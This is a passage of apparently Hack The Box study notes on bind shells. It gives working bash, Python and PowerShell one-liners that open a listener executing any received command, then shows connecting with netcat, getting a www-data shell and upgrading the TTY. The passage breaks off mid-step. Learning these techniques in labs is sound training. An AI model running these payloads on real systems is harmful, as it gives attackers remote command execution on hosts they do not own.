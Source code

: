 ```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### Netcat Connection

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use `netcat` to connect to that port and get a connection to the shell:

```shell
gitblanc@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we are directly dropped into a bash session and can interact with the target system directly. Unlike a `Reverse Shell`, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

#### Upgrading TTY

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

```shell
gitblanc@htb[/htb]$ python -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
